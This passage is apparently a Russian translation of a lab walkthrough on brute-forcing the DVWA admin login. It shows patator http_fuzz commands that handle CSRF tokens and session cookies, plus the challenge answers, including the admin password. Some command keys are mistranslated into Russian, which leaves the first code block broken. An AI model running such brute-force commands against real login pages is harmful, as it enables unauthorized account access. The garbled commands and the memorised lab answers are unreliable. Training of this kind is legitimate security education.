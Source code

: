 ```commandline
body= "имя пользователя=администратор&пароль=FILE0&Логин=Логин&токен_пользователя= ${ CSRF } " \
header= "Cookie: PHPSESSID= ${SESSIONID} ; безопасность=невозможно" \
-x выход:fgrep!=login.php
```
NB Если вы обнаружите, что при запуске вышеприведенного кода возникают ошибки о парах k,v, попробуйте изменить 
скрипт так, чтобы вся команда patator находилась на одной строке. Например:

`
patator http_fuzz method=POST --threads=64 timeout=10 url= "http:// ${IP} /login.php" 0=passwords.txt body= "username=admin&password=FILE0&Login=Login&user_token= ${ CSRF }  header= "Cookie: PHPSESSID= ${SESSIONID} ; security=impossible" -x quit:fgrep!=login.php
`

При запуске этого скрипта вы можете заметить кое-что: когда он останавливается, нелегко сказать, какой пароль на 
самом деле правильный. Мы можем отфильтровать все неправильные пароли с помощью действия -x ignore:. Синтаксис и 
формат в основном такие же, как у действия quit. Так что все, что вам нужно сделать, это протестировать и настроить..
. Я даже сделал правильную команду ответом на вопрос 1. Так что если вы сделаете это правильно, вы знаете, что все 
готово. Если вы застряли, подумайте, какой текст будет в ответе, если результат был неверным. Мы можем игнорировать 
эти ответы и не выводить их на экран.     

Добавьте действие -x ignore: в конец существующей команды patator (сразу после действия quit), и единственным 
результатом, который вы получите, будет пароль администратора! 

### Ответьте на вопросы ниже
Какое действие мы можем использовать, чтобы отобразить только правильный пароль (ответ включает « »)?

```commandline
-x ignore:fgrep='Location: login.php'
```

Какой пароль администратора? 
```commandline
1qaz@WSX
```

## Задание 6
Поздравляем! Вы не только взломали основной логин администратора, но и сделали это, когда безопасность была установлена ​​на «Невозможно» — если вы впервые используете брутфорс, будьте впечатлены собой, время для чая и медалей всем вокруг. 

Но мы не можем долго почивать на лаврах. Помните, мы потерпели поражение на первом же препятствии с помощью инструмента с графическим интерфейсом. Так что давайте посмотрим, сможем ли мы искупить свою вину в этой области. Загрузите прикрепленный нами файл userlist.txt и начнем. Эта задача будет посвящена использованию OWASP ZAP, отличного инструмента для тестирования веб-приложений на проникновение; просто помните, что нужно воспринимать автоматические предупреждения и оповещения с долей скепсиса. Хороший пентестер должен вручную проверять перечисленные уязвимости, о которых сообщают автоматизированные инструменты, вы будете выглядеть глупо, если придет время отчета, и окажется, что инструмент (а теперь, как следствие, и вы) ошибался.
